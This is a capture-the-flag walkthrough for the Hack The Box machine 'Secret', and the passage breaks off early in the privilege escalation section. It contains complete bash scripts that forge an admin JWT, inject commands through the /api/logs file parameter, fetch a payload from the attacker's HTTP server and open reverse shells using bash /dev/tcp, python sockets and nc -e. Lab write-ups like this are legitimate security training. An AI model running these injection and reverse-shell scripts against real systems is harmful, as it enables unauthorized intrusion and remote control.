 # Secret

## Remote Discovery

> Note: the box IP has been added to the `/etc/hosts` file as `secret.htb`

### Nmap Scan

An `nmap -Sc -Sv secret.htb` yields:
```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
...
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
...
3000/tcp open  http    Node.js (Express middleware)
...
```

looks like we have an http server, lets use some gobuster:

### Gobuster
```
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://secret.htb | tee gb_common.txt
...
/api                  (Status: 200) [Size: 93]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/docs                 (Status: 200) [Size: 20720]
/download             (Status: 301) [Size: 183] [--> /download/]
```

### Source Code and User Creation/Access
Looking around at the site, we can find that there is some source code, as well as docs explaining the code. It appears that the current site is running the source code you can download from the site... So now we just need to exploit it. We can start with user creation.

The docs outline a way to send a POST request to create a user, we can accomplish this with such a command:
```bash
$ curl -H "Content-Type: application/json" -d '{"name":"tester","email":"blaine.bublitz@gmail.com","password":"tester"}' http://secret.htb:3000/api/user/register

{"user":"tester"}
```

This creates the user `tester` with the password `tester`. It is of note, that not all emails will work, I found this one in the source code and just tried it. I doubt we'll actually need an email for this exploit, so anything that works will be fine.

The next steps outlined in the docs is to send a POST request to login and we should recieve an auth token:
```bash
$ curl -H "Content-Type: application/json" -d '{"email":"blaine.bublitz@gmail.com","password":"tester"}' http://secret.htb:3000/api/user/login

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTgxNTMzMDdlMDQyMDA0Nzk4OWJhYWUiLCJuYW1lIjoidGVzdGVyIiwiZW1haWwiOiJibGFpbmUuYnVibGl0ekBnbWFpbC5jb20iLCJpYXQiOjE2MzU4NjU5NzZ9.UF6A5i8uOlilGot6_ipbpjkoifzd8KrSmlSKsL_r7tw
```

We can now use this auth token for some eploit goodness.

## Remote Code Execution

Using the token we generate from the admin account, we can run some remote code execution through the `/api/logs` page. By url encoding some commands and slapping that on the file param, we can get some execution, lets make a script to make this easier:
```bash
$ cat run_command.sh

#!/bin/bash
TOKEN=$1
COMMAND=$2
COMMAND=$( node -e "console.log(encodeURIComponent(\"$COMMAND\"))" )
echo -e $(curl -s -H "auth-token: $TOKEN" -X GET "http://secret.htb:3000/api/logs?file=$COMMAND")
```

With this, we can use some reverse shell magic to get a reverse shell. For conveniance, I've created a script that tries a few different reverse shell techniques:
```bash
$ cat remote_shell.sh

#!/bin/bash
# Usage ./remote_shell.sh IP_ADDRESS PORT

IPADDR=$1
PORT=$2

echo "Attempting to connect through bash and tcp..."
bash -i >& /dev/tcp/$IPADDR/$PORT 0>&1 && exit 1 || echo "Failed to use bash -i with tcp"

echo "Attempting python connection..."
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("'$IPADDR'",'$PORT'));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' && exit 1 || echo "Failed at python connection"

echo "Attempting a netcat connection..."
nc -e /bin/sh $IPADDR $PORT && exit 1 || echo "Failed netcat connection"
```

Using this, we get the file to the server using a python http server, and a `./run_command "curl http://IPADDRESS/remote_shell.sh > /tmp/remote_shell.sh"` and a `./run_command "/bin/bash /tmp/remote_shell.sh IPADDR PORT"` while starting a netcat listener on a given port, then we've got a shell!

To make this easier, I've made a script to automate this:
```bash
$ cat shell.sh

#!/bin/bash

# Get some vars
if [[ -z $1 ]]; then
        PORT=5001
else
        PORT=$1
fi
TMPFILE=tmpfile19527613
TOKEN_SECRET=gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
PAYLOAD='{_id:"618153307e0420047989baae",name:"theadmin",email:"root@dasith.works",iat:1635865976}'
TOKEN=$( node -e "const jwt = require('jsonwebtoken'); console.log(jwt.sign($PAYLOAD, '$TOKEN_SECRET' ));" )
IP=$(ifconfig tun0 | grep 'inet ' | cut -d: -f2 | awk '{print $2}')
cat <<EOF> $TMPFILE
bash -i >& /dev/tcp/$IP/$PORT 0>&1 && exit 1
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("'$IP'",'$PORT'));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' && exit 1
nc -e /bin/sh $IP $PORT && exit 1
xterm -display $IP:$PORT && exit 1
EOF
C1="nofile; curl http://$IP/$TMPFILE > /tmp/shell.sh"
C1=$( node -e "console.log(encodeURIComponent(\"nofile; pwd; $C1\"))" )
C2="nofile; /bin/bash /tmp/shell.sh $IP $PORT"
C2=$( node -e "console.log(encodeURIComponent(\"nofile; pwd; $C2\"))" )
C3="nofile; rm /tmp/shell.sh"
C3=$( node -e "console.log(encodeURIComponent(\"nofile; pwd; $C3\"))" )

# Define cleanup function
function cleanup {
        rm $TMPFILE
        echo "Removing shell file on server"
        res=$(echo -e $(curl -s -H "auth-token: $TOKEN" -X GET "http://secret.htb:3000/api/logs?file=$C3"))
}
trap cleanup EXIT

# Start http server
python3 -m http.server 80 &
pid=$!
sleep 1

# Get the reverse script
res=$(echo -e $(curl -s -H "auth-token: $TOKEN" -X GET "http://secret.htb:3000/api/logs?file=$C1"))
#echo $res # for debugging
sleep 1

# Stop the http server
kill "${pid}"

# Start a nc listener and run the connection
{ sleep 2; res=$(echo -e $(curl -s -H "auth-token: $TOKEN" -X GET "http://secret.htb:3000/api/logs?file=$C2")); } &
nc -lvnp $PORT
```

## Privesc

Looking around for an exploit to get the root flag, we can find the script `/opt/count` with corresponding c code in `/opt/code.c`. This program appears to be able to read the root flag as `printf "/root/root.txt\nn" | /opt/count"` will give use the number of characters, words, and lines in the file. We might be able to leverage this program to show us the root flag.
